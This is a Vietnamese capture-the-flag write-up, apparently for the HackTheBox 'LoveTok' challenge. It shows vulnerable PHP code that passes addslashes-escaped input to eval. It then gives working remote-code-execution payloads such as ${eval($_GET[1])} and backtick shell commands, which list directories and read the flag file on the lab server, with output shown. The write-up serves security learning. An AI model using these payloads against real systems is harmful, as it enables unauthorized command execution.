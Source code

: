 Đầu tiên ở trong file `models/TimeModel.php` ta thấy có đoạn code:
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
Hàm này nhận tham số đầu vào là `format` nhưng chỉ validate bằng hàm `addslashes`. Sau đó thực thi bằng hàm `eval` -> khả năng ta sẽ thực hiện RCE ở đây.

GET `http://142.93.37.215:31829/?format=${eval($_GET[1])}&1=phpinfo();`
```
System	Linux weblovetok-992149-86bd695864-nvnbq 5.10.0-0.deb10.17-amd64 #1 SMP Debian 5.10.136-1~deb10u3 (2022-09-06) x86_64
Build Date	Jan 12 2021 13:59:46
Server API	FPM/FastCGI
Virtual Directory Support	disabled
Configuration File (php.ini) Path	/etc/php/7.4/fpm
Loaded Configuration File	/etc/php/7.4/fpm/php.ini
Scan this dir for additional .ini files	/etc/php/7.4/fpm/conf.d
...
```

GET `http://142.93.37.215:31829/?format=${eval($_GET[1])}&1=system(%27ls%27);`
```
Router.php assets controllers index.php models static views
```

GET `http://142.93.37.215:31829/?format=${eval($_GET[1])}&1=system(%27ls%20../%27);`
```
bin boot dev entrypoint.sh etc flagtJjnW home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var www
```

GET `http://142.93.37.215:31829/?format=${eval($_GET[1])}&1=system(%27cat%20../flagtJjnW%27);`
```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```

Ở đây chúng ta cũng có thể sử dụng payload khác ngắn gọn hơn:

GET `http://142.93.37.215:31829/?format=${print(`\`ls\``)}`
```
Router.php assets controllers index.php models static views
```

GET `http://142.93.37.215:31829/?format=${print(`\`ls%20..\``)}`
```
bin boot dev entrypoint.sh etc flagtJjnW home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var www
```

GET `http://142.93.37.215:31829/?format=${print(`\`cat%20../flagtJjnW\``)}`
```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```